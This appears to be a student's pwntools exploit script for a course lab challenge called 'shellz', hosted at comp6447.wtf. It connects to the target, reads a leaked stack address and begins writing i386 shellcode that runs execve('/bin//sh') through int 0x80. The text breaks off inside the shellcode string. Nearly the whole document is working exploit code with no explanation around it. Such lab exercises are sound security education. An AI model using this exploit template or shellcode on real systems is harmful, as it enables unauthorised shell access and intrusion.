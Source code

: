 Script/Command used
------------------------------------------------------
```
from pwn import *

# Set up pwntools for the correct architecture
context.update(arch='i386')
exe = './shellz' #Change this

PROGNAME = exe
REMOTE = "comp6447.wtf" #Change this
REMOTEPORT = 15901 #Change this
global p
global e
global global_timeout

e = ELF(PROGNAME)

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

if args.REMOTE:
    global_timeout = 3
    p = remote(REMOTE, REMOTEPORT)
else:
    global_timeout = 0.5
    p = process(PROGNAME)
    p = start()
#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

# Here is a random stack address: ... (randomised)
p.recvuntil(b'random stack address: ', drop=True)
stackaddr = p.recvline()
log.info(f"The random stack address is {stackaddr}")

my_assembly ="""
xor ecx, ecx
mul ecx

mov eax, 0xb
push 0x68
push 0x732f2f2f
push 0x6e69622f
mov ebx, esp
int 0x80
```